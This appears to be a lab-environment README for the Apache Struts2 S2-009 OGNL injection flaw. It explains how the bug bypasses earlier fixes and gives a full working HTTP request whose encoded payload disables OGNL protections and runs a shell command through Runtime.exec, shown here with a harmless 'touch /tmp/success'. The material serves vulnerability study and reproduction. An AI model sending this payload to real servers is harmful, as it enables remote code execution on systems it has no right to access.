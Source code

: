 # S2-009 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.1.1

Details: http://struts.apache.org/docs/s2-009.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

> This vulnerability is derived from s2-003, s2-005. If you want to understand the principle of the vulnerability, you need to read the instructions of s2-005: https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

[Struts2 vulnerability analysis](https://www.t00ls.net/viewthread.php?tid=21197), as mentioned in the article, the method of introducing OGNL may not only appear in this vulnerability, but may also appear in other Java applications.

Struts2's repair method for s2-003 is to prohibit static method calls. In s2-005, this restriction can be bypassed directly through OGNL. For the `#` number, use the code `\u0023` or `\43` to bypass; then s2-005's repair is forbidden \ and others special symbols that prevent users submit backslashes.

However, if a parameter `example` is accepted in the current action, this parameter will be sent to the OGNL expression. So, we can put the OGNL expression code in the `example` parameter and then execute it by `/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`, then bypass defense of special characters such as `#`, `\`.

## Exploit

The environment is a struts2 "feature display" website named `Struts Showcase`. We need find an action that accepts the parameter, and type is string.

First decompress `S2-009.war`. We can see that source code is in the `WEB-INF/src` directory, I generally look for ajax related code.

Found one in`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`:

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

The code is simple, it accepts the name parameter and calls setName to assign it to the private property `this.name`, which is in line with our requirement. Then we go to `WEB-INF/src/java/struts-ajax.xml` to see the URL routing setting:

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

We can see `name=example5`, so access the controller by visiting `http://your-ip:8080/ajax/example5.action`. Then put the OGNL exploit code in the name parameter and access the URL:

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

The POC don't have display, so we use `touch /tmp/success` command, and we found that the `success` file has been created to prove that expliot succeeded.

![](1.png)
